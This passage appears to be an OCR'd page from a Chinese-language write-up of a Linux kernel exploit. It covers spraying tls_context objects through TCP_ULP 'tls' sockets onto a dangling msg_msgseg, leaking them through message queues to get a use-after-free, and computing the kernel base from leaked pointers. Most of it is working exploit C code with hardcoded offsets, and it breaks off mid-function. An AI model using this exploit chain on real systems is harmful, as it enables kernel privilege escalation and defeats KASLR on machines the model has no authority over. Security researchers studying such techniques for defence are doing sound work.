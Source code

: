 ## 重新分配为 tls\_context 类型

```bash
socket(AF_INET, SOCK_STREAM, 0);
```

为了在内核堆中喷出 tls\_context 对象，从而覆盖我们的悬空的 msg\_msgseg，我们像上面一样预先准备了一堆套接字，

```bash
struct sockaddr_in server;
inet_aton("127.0.0.1", &server.sin_addr);
server.sin_port = htons(9999);
server.sin_family = AF_INET;
if (connect(fd, (struct sockaddr*)&server, sizeof(server))) {
    perror("connect");
    return ERR;
}
tls_fds[i] = fd;
We connect each new socket to a local server.

int fd = tls_fds[i];
// struct tls_context allocation in kmalloc-512
if (setsockopt(fd, SOL_TCP, TCP_ULP, "tls", sizeof("tls"))) {
    perror("setsockopt(fd, SOL_TCP, TCP_ULP, \"tls\"");
    printf("fd: %d\n", fd);
    return ERR_UNFIN(i);
};
```

然后，在准备好的时候（在所有前面的利用阶段之后），我们升级这些已连接的套接字，并在此过程中为每个套接字分配一个`tls_context`

## Leaking tls\_context

```bash
static inline err_t leak_tls_contexts(struct manager *mgr)
{
    char *leak = (char *)mgr->leak;
    uint64_t *store = mgr->msq_ids;
    IF_ERR_RET(leak_msg(DEAD_LIST_PATTERN, store, TOTAL_MSGS, leak, MSG_SIZE))
    print_leak(leak);
    return SUCC;
}
```

现在，我们的一个消息包含了`tls_context`对象，我们可以尝试在一些消息中找到`DEAD_LIST_PATTERN`，该消息的 ID 存储在**mgr->msq\_ids**中，其内容将被输出到**mgr->leak**，重要的是，接收消息将释放它，因此，现在我们有了一个`tls_context` `Use-After-Free`（哈哈），

## 覆盖 tls\_context 对象

```bash
static inline err_t prepare_tls_overwrite(struct manager *mgr)
{
#define KHEAP_PTR_OFF (200)
#define RO_PTR_OFF (224)
#define LIST_OFF (0x98)
#define BASE_OFF (0x180b660)
#define MSGSEG_OFF (4000)    
    /* Extract pointers and wipe the data, ready for spray. */
    char *leak = (char *)mgr->leak + MSGSEG_OFF;
    uint64_t tls_context = *(uint64_t*)&leak[KHEAP_PTR_OFF] - LIST_OFF;
    uint64_t kernel_base = *(uint64_t*)&leak[RO_PTR_OFF] - BASE_OFF;
    printf("[+] Current tls_context @ %lx\n", tls_context);
    printf("[+] Kernel base @ %lx\n", kernel_base);
    memset((char *)mgr->leak, 0, MSG_SIZE);

#define GETSOCKOPT_OFF (40)
```